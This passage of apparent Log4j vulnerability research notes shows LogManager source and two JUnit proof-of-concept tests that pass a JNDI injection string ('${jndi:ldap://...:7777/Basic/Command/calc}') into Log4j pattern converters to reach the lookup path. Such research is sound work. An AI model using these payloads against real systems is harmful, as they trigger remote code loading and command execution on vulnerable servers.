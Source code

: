 LogManager.getContext() used in the first PoC
```
  public static LoggerContext getContext(final ClassLoader loader, final boolean currentContext, final URI configLocation) {
        try {
            return factory.getContext(FQCN, loader, (Object)null, currentContext, configLocation, (String)null);
        } catch (IllegalStateException var4) {
            LOGGER.warn(var4.getMessage() + " Using SimpleLogger");
            return (new SimpleLoggerContextFactory()).getContext(FQCN, loader, (Object)null, currentContext, configLocation, (String)null);
        }
    }
```

LogManager.getContext() used in getLogger and getFormatterLogger
```
public static LoggerContext getContext(final boolean currentContext) {
        try {
            return factory.getContext(FQCN, (ClassLoader)null, (Object)null, currentContext, (URI)null, (String)null);
        } catch (IllegalStateException var2) {
            LOGGER.warn(var2.getMessage() + " Using SimpleLogger");
            return (new SimpleLoggerContextFactory()).getContext(FQCN, (ClassLoader)null, (Object)null, currentContext, (URI)null, (String)null);
        }
    }
```

## Pocs for Pattern Converters ##

**MessagePatternConverter.format()**

```
  @Test
    public void formatMessagePatternConverterTest() {
        Configuration configuration = new DefaultConfiguration();
        MessagePatternConverter messagePatternConverter = MessagePatternConverter.newInstance(configuration, new String[]{"lookups"});
        LogEvent logEvent = new MutableLogEvent(new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"), null);
        messagePatternConverter.format(logEvent, new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"));
    }
```

**PatternFormatter.format()**

```
  @Test
    public void formatPatternFormatterTest() {
        Configuration configuration = new DefaultConfiguration();
        String pattern = "%m";
        PatternParser parser = new PatternParser(configuration, "Converter", null);
        List<PatternFormatter> formatters = parser.parse(pattern);
        LogEvent logEvent = new MutableLogEvent(new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"), null);
        for (PatternFormatter formatter : formatters) {
            formatter.format(logEvent, new StringBuilder("${jndi:ldap://127.0.0.1:7777/Basic/Command/calc}"));
        }
    }
```
